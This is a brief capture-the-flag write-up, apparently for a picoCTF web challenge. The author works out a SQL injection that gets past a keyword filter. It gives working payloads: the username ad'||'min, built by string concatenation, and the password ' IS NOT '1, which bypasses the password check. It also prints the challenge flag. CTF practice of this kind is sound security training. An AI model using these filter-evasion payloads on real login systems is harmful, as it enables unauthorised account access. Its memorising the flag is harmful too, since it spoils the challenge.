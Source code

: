 Now filter is or and true false union like = > < ; -- /* */ admin
no comment will work no nothing..
in the Hint : there might be check on password
it means there must be condition for password as true
this the test command line 

    SELECT username, password FROM users WHERE username='ad' AND password='ad'
    
now how can we manipulate this...

we have to be admin as it clearly suggests

username = ad'||'min it can work...
now we have to sort it out for password
password = ' IS NOT '1 it will manage out the quotes

    SELECT username, password FROM users WHERE username='ad'||'min' AND password='' IS NOT '1'

we got the flag 

    picoCTF{0n3_m0r3_t1m3_d5a91d8c2ae4ce567c2e8b8453305565}
